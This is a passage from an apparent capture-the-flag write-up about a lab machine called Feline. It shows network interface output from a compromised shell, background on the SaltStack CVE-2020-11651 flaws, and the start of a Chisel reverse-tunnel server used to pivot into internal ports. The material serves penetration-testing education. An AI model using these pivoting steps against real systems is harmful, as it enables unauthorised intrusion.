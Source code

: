     docker0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 172.17.0.1  netmask 255.255.0.0  broadcast 172.17.255.255
            inet6 fe80::42:75ff:fea3:764d  prefixlen 64  scopeid 0x20<link>
            ether 02:42:75:a3:76:4d  txqueuelen 0  (Ethernet) 
            RX packets 5354  bytes 822803 (822.8 KB)
            RX errors 0  dropped 0  overruns 0  frame 0
            TX packets 9339  bytes 635261 (635.2 KB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
    
    ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
            inet 10.10.10.205  netmask 255.255.255.0  broadcast 10.10.10.255
            inet6 fe80::250:56ff:feb9:5e24  prefixlen 64  scopeid 0x20<link>
            inet6 dead:beef::250:56ff:feb9:5e24  prefixlen 64  scopeid 0x0<global>
            ether 00:50:56:b9:5e:24  txqueuelen 1000  (Ethernet)
            RX packets 110193  bytes 49169059 (49.1 MB)
            RX errors 0  dropped 96  overruns 0  frame 0
            TX packets 106878  bytes 13658308 (13.6 MB)
            TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
    ...[snip]...
    

This shell seems to be running on the main host.

### CVE-2020-11651

#### Background

Googling for “SaltStack vulnerabilities” returned [this
article](https://www.helpnetsecurity.com/2020/05/04/saltstack-salt-
vulnerabilities/) from May 2020 (around the same time as the Tomcat
vulnerability) talking about CVE-2020-11651 and CVE-2020-11652 which can be
exploited by remote, unauthenticated attackers.

> According to the researchers, the vulnerabilities allow attackers to
> “connect to the ‘request server’ port to bypass all authentication and
> authorization controls and publish arbitrary control messages, read and
> write files anywhere on the ‘master’ server filesystem and steal the secret
> key used to authenticate to the master as root.”

More Google led to [this proof of
concept](https://github.com/jasperla/CVE-2020-11651-poc) on GitHub.

#### Tunnel

To access these ports, I need to run from Feline or tunnel. I uploaded
[Chisel](https://github.com/jpillora/chisel) to Feline and used it to create a
socks proxy. First I started the server on my host:

    
    
    root@kali:/opt/chisel# ./chisel_1.6.0_linux_amd64 server -p 8000 --reverse
    2020/09/01 09:15:49 server: Reverse tunnelling enabled
    2020/09/01 09:15:49 server: Fingerprint be:f7:9d:b2:7f:8c:a4:60:51:43:9a:c3:3e:b1:34:fa
    2020/09/01 09:15:49 server: Listening on 0.0.0.0:8000...
    

